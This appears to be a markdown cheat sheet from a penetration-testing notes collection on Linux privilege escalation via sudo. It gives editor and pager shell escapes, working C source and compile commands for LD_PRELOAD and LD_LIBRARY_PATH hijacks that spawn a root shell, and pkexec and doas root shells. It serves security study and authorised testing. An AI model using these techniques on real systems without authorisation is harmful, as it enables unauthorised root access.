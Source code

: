 # Sudo

* [Enumerate](#enumerate)
* [Limited Sudo](#limited-sudo)
* [LD_PRELOAD](#ld_preload)
* [LD_LIBRARY_PATH](#ld_library_path)
* [Sudo Exploits](#sudo-exploits)
* [pkexec](#pkexec)

## Enumerate

If you can read `/etc/sudoers`, then do so to figure out the sudo permissions of users on the machine.

Otherwise check sudo privileges (often requires password):
```bash
sudo -l
```

Execute as another user:
```bash
# impersonate another user with sudo
sudo -u <user> <command>
sudo -u someuser whoami

# shell as another user
sudo -u someuser /bin/bash
```

Root shell (one of these):
```bash
# gain root through sudo
sudo su -

# keep current environment when switching to root
sudo su

# alternative ways to elevate to root
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

## Limited Sudo

If your sudo privileges are restricted to some specific programs, then look for possible escape methods:

**GTFOBins** - https://gtfobins.github.io/

### Examples

In text editors like `less` or `more` you can often open a shell via the interactive command interface in the editor:
```bash
less <somefile>
!/bin/sh
# spawns root sh shell
```

Vi and Vim:
```bash
sudo vi
:set shell=/bin/sh
:shell
# spawns root sh shell
```

Emacs:
```bash
sudo emacs -Q -nw --eval '(term "/bin/sh")'
# spawns root sh shell
```

A lot of edtiors that normally aren't interactive will drop into an interactive mode if the window size is too small, so try lowering the windows size if you cannot access commands.

### apt-get

This is an example of using the above indirectly, which can be quite common in different applications. Look for ways to make a sudo'd application run a pager like less.

The default pager should be `less' for this to work. Also you need to find an updated apt package that has a changelog.

```bash
sudo apt-get changelog apt
...
!/bin/sh
# spawns root sh shell
```

## LD_PRELOAD

If you do sudo -l and see the following:
```bash
env_keep+=LD_PRELOAD
```

Then you can easily PrivEsc to root.

Create a shared object (.so) binary:

File `pe_preload.c`:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile:
```bash
gcc -fPIC -shared -nostartfiles -o /tmp/pe_preload.so pe_preload.c
```

Now if you run any program as sudo, you can pop a root shell:

```bash
sudo LD_PRELOAD=/tmp/pe_preload.so ping

# root shell pops
```


## LD_LIBRARY_PATH

Unlike LD_PRELOAD, this is not an unconditional winning condidtion. This will work if the program you can execute uses one or more shared libraries.

If you do sudo -l and see the following:
```bash
env_keep+=LD_LIBRARY_PATH
```

Then you might be able to gain root by replacing a shared object library (.so) used by one of the programs we can run as sudo.

Use the `ldd` command to enumerate the shared object libraries used by a binary.

```bash
ldd /usr/sbin/apache2

# output
    ...
    librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007fa9e2b33000)
    libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fa9e2af8000)
    libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fa9e2af3000)
    ...
```

If there are libs, then this should work. Pick one of them and create a shared library binary with the same name (here libcrypt.so.1).

pe_lib.c:

```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile like the previous example:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC pe_lib.c
cd /tmp/
```

Then run the relevant command with the LD_LIBRARY_PATH parameter:

```bash
sudo LD_LIBRARY_PATH=. apache2

# rootshell spawns here
```

## Sudo Exploits

All of the above are basically ways to use sudo as intended by the creators (it's not a bug, it's a feature). But there were also a variety of vulnerabilities in sudo itself over the years.

Enumerate the sudo version with:

```bash
sudo -V
```

Search for exploits:
```bash
searchsploit sudo
searchsploit sudo <version_num_here>
```

There is also a dedicated toolset for identifying sudo vulnerabilities:

* "sudo killer" by TH3xACE - https://github.com/TH3xACE/SUDO_KILLER


## pkexec

Pkexec is similar to sudo, in that it lets you execute commands as another user (usually root) if you are part of a whitelisted group (usually 'admin' or similar).

If there is the pkexec SUID binary on the machine (check the SUID notes for search commands), then check the config:

```bash
cat /etc/polkit-1/localauthority.conf.d/*
```

If one of your groups is listed there then you can do:

```bash
pkexec "/bin/sh" #You will be prompted for your user password

# root shell pops here
```

## doas

If you can't run su or sudo and you cannot elevate despite having the root password, then sometimes you can find this (especially on BSD):

```bash
doas -u root /bin/sh 
# type root password here
```

